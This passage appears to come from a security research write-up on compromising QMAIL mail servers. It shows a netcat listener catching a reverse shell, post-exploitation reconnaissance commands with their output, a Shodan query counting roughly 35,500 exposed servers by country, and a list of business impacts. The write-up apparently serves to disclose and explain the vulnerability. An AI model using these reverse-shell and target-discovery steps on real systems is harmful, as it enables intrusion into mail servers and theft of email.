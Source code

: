 ## Attack Results and Post-Exploitation

### System Access Confirmation

```bash
# Successful reverse shell connection
$ nc -lvp 9669
Connection from target.server.com:43251
sh-4.2$

# System reconnaissance
sh-4.2$ whoami
qmail

sh-4.2$ uname -a
Linux mailserver 2.6.32-431.el6.x86_64 #1 SMP Fri Nov 22 03:15:09 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux

sh-4.2$ id
uid=89(qmail) gid=89(qmail) groups=89(qmail)
```

## Impact Assessment

### Attack Scale Analysis

Using Shodan intelligence gathering, the research identified approximately **35,500 potentially vulnerable QMAIL servers** globally:

```
Shodan Query: "QMAIL" port:25
Results: 35,500+ servers

Geographic Distribution:
├── United States: 12,400 servers
├── Germany: 4,200 servers  
├── France: 3,800 servers
├── United Kingdom: 2,900 servers
├── Netherlands: 2,100 servers
└── Others: 10,100 servers
```

### Business Impact

- **Email Infrastructure Compromise**: Complete control over mail servers
- **Data Exfiltration**: Access to all email communications
- **Lateral Movement**: Mail servers often have privileged network access
- **Service Disruption**: Potential for widespread email service outages
- **Compliance Violations**: Breach of email privacy regulations


## Historical Context and Lessons
